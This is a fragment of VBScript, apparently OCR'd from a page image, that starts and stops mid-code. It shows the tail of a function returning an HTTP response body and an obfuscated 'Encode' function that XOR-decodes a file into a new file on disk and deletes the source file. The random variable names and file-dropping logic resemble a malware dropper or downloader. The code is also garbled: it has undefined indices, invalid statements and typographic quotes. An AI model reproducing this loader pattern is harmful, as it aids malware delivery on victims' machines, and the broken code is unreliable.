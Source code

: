 ```
CZeq = bkDw.ResponseBody
End If
End Function

Function Encode( FCkE, BGmO, msKq )
Dim joCE, HHHm, NgjR, jIFy, vHqt, mzrI
Const ForAppending = 8
Const ForReading = 1
Const ForWriting = 2
Const TristateFalse = 0
Const TristateMixed = -2
Const TristateTrue = -1
Const TristateUseDefault = -2
On Error Resume Next
If Not IsArray( msKq ) Then
msKq = Array( msKq )
End If
For joCE = 0 To UBound( msKq )
If Not IsNumeric( msKq(i) ) Then
Encode = 1032
Exit Function
End If
If msKq(joCE) &lt; 0 Or msKq(joCE) &gt; 255 Then
Encode = 1031
Exit Function
End If
Next
Set HHHm = CreateObject( “Scripting.FileSystemObject” )
If HHHm.FileExists( FCkE ) Then
Set NgjR = HHHm.GetFile( FCkE )
Set vHqt = NgjR.OpenAsTextStream( ForReading, TriStateFalse )
Else
vHqt.Close
Set vHqt = Nothing
Set NgjR = Nothing
Set HHHm = Nothing
Exit Function
End If
If HHHm.FileExists( BGmO ) Then
vHqt.Close
Set vHqt = Nothing
Set NgjR = Nothing
If HHHm.Fileexists( FCkE) Then HHHm.DeleteFile FCkE
Set HHHm = Nothing
Exit Function
Else
Set jIFy = HHHm.CreateTextFile( BGmO, True, False )
End If
set joCE = 0
Do Until vHqt.AtEndOfStream
For joCE = 0 To UBound( msKq )
joCE + 1 mod ( UBound( msKq ))
jIFy.Write Chr( Asc( vHqt.Read( 1 ) ) Xor msKq(joCE) )
if vHqt.AtEndOfStream Then Exit Do
Next
Loop
set joCE = 0
Do Until vHqt.AtEndOfStream
joCE = ( joCE + 1 ) ( UBound( msKq ) + 1 )
jIFy.Write Chr( Asc( vHqt.Read( 1 ) ) Xor msKq(mzrI) )
joCE=joCE+1
If mzrI&lt;UBound( msKq ) Then
mzrI=mzrI+1
```